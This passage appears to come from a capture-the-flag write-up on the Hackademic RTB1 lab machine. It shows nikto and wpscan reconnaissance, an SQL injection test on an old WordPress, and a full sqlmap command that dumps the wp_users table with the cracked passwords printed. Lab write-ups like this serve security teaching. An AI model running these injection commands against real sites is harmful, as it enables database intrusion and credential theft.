 ```
+ OSVDB-3092: /Hackademic_RTB1/license.txt: License file found may identify site software.
+ 7534 requests: 0 error(s) and 15 item(s) reported on remote host
+ End Time:           xxxx-xx-xx xx:xx:xx (GMT) (24 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

Using nikto tells us that it is a wordpress application. `wpscan` revealed a very old version of wordpress (v1.5.1.1), which hash some serious SQL injection vulnerabilities. This can be verified by looking at the one and only blogpost (id is 9) and try `http://192.168.1.100/Hackademic_RTB1/?p=(8+1)`, which works.


---

# Stage 3: Exploitation

Tools used:
* sqlmap
* searchsploit

The next thing I tried was `sqlmap` to try and see if I can inject using the parameter 'p'. However, that didn't went so well... sqlmap sugggests that integer casting might be done at the backend which will strip our injection arguments. This means we must find another way in.

`[xx:xx:xx] [ERROR] possible integer casting detected (e.g. "$p=intval($_REQUEST['p'])") at the back-end web application`

Looking closely at the bottom, it seems like the blogpost is classified as 'Uncategorized'. The URL to view all 'Uncategorized' posts is `http://192.168.1.100/Hackademic_RTB1/?cat=1`. Trying `sqlmap` on it this time works as intended!

```
root@kali:~# sqlmap -u http://192.168.1.100/Hackademic_RTB1/?cat=1 -D wordpress -T wp_users -C user_nickname,user_pass --dump

// output truncated

[xx:xx:xx] [INFO] starting dictionary-based cracking (md5_generic_passwd)
[xx:xx:xx] [INFO] starting 2 processes 
[xx:xx:xx] [INFO] cracked password 'admin' for hash '21232f297a57a5a743894a0e4a801fc3'                                                              
[xx:xx:xx] [INFO] cracked password 'kernel' for hash '50484c19f1afdaf3841a0d821ed393d2'                                                             
[xx:xx:xx] [INFO] cracked password 'maxwell' for hash '8601f6e1028a8e8a966f6c33fcd9aec4'                                                            
[xx:xx:xx] [INFO] cracked password 'napoleon' for hash 'a6e514f9486b83cb53d8d932f9a04292'                                                           
[xx:xx:xx] [INFO] cracked password 'q1w2e3' for hash '7cbb3252ba6b7e9c422fac5334d22054'                                                             
[xx:xx:xx] [INFO] postprocessing table dump                                                                                                         
Database: wordpress
Table: wp_users
[6 entries]
+---------------+---------------------------------------------+
| user_nickname | user_pass                                   |
+---------------+---------------------------------------------+
| NickJames     | 21232f297a57a5a743894a0e4a801fc3 (admin)    |
| MaxBucky      | 50484c19f1afdaf3841a0d821ed393d2 (kernel)   |
| GeorgeMiller  | 7cbb3252ba6b7e9c422fac5334d22054 (q1w2e3)   |
| JasonKonnors  | 8601f6e1028a8e8a966f6c33fcd9aec4 (maxwell)  |
| TonyBlack     | a6e514f9486b83cb53d8d932f9a04292 (napoleon) |
| JohnSmith     | b986448f0bb9e5e124ca91d3d650f52c            |
+---------------+---------------------------------------------+
```